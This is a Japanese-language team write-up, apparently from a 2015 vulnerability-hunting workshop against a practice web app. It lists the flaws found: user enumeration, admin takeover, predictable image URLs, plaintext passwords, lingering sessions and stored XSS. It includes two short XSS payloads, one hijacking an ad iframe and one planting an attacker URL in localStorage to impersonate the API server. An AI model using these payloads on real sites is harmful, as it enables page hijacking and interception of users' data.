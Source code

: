 #発見した脆弱性

## 2015/04/11

### チーム５

 + 酒巻、安本（学生）、飯島、上野、八尾

1. 全員のユーザID、ユーザ名、そのユーザが管理者かどうかも分かる。
2. 管理ユーザとして登録できて、他者のパスワードを変更できてしまう。
3. テスト画面が見れてしまう。  
  `http://day1.vi9tim.website:8080/static/test.html`
4. ボイスにクロスサイトスクリプティングが埋め込める。トークンが分かる。
5. 画像のURLが連番なので番号を増減させると他のが取れる  
   `http://day0.vi9tim.website:8080/phots/00000174.jpg`
6. iframeを書き換える

```html
<img src="" onerror="document.getElementById('adFrame').srcdoc = '<div>広告が乗っ取られました。</div>'" />
```

### 参考図書（酒巻さんより）

 + 「[Bug Hunt](https://leanpub.com/bughuntaquickstartguidetopenetrationtesting)」 基礎的なXXS の攻撃方法 


#### 15:00 ヒントタイム

 1. Webコンポーネンツを使った脆弱性がChromeにある。スクリプトを埋め込んだHTMLを実行できてしまう。

#### 18:00 チーム発表

 1. EXIFのMAKEタグにスクリプトを埋め込むと実行できてしまう。
 2. パスワードが平文で保存されている。
 3. ログアウトしてもサーバ側のセッションが残っていて、適当なトークンで再ログインできてしまう。
 4. XSSで永続的にAPIサーバになりすませる。ローカルストレージに悪サイトのURLがずっと残っている。

```html
<img src=0 onerror="javascript:window.localstorage.server='http://waruicom/'"
```
